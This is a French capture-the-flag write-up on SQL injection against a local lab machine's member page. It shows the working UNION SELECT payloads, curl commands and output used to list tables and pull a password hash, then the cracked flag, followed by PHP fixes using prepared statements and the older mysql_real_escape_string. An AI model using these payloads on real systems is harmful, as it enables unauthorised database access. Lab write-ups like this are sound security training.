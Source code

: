 # SQL Injection

## Exploitation

Sur la page member, on se rend compte que l'on peut provoquer une erreur MySql en passant le caractère `'` dans la textbox.

```bash
curl -s 'http://192.168.99.100/?page=member&id=%27&Submit=Submit' | grep error
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1</pre>
```

On peut certainement faire une injection SQL.

On utilise cette query pour recuperer les tables et colonnes de la DB:

```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit'
```

On se rend compte qu'il y a une table `user` avec les colonnes `user_id|town|planet|country|last_name|first_name|Commentaire|countersign`.

On utilise ces query pour récupérer des datas de la table `user`:

```sql
`1 UNION SELECT first_name,Commentaire from users`
`1 UNION SELECT first_name,countersign from users`
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2CCommentaire+from+users&Submit=Submit' | grep Flag

<br>First name: Flag<br>Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !</pre><table width=50%>
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2Ccountersign+from+users&Submit=Submit' | grep Flag

 <br>First name: Flag<br>Surname : 5ff9d0165b4f92b14994e5c685cdce28</pre><table width=50%>

```

En faisant un md5 reverse de `5ff9d0165b4f92b14994e5c685cdce28`, on obtient `FortyTwo`, donc en lower `fortytwo`

```bash
$> echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Resolutions

En PHP, on peut utiliser des prepared statement:

```php
<?php
/* Execute a prepared statement by passing an array of values */
$sql = 'SELECT name, colour, calories
    FROM fruit  WHERE colour = :colour';
$sth = $dbh->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':colour' => 'red'));
$red = $sth->fetchAll();
?>
```

Ou plus simplement la fonction `mysql_real_escape_string` pour mysql:

```php
$query = sprintf("SELECT * FROM users WHERE user='%s' AND password='%s'",
            mysql_real_escape_string($user),
            mysql_real_escape_string($password));
```
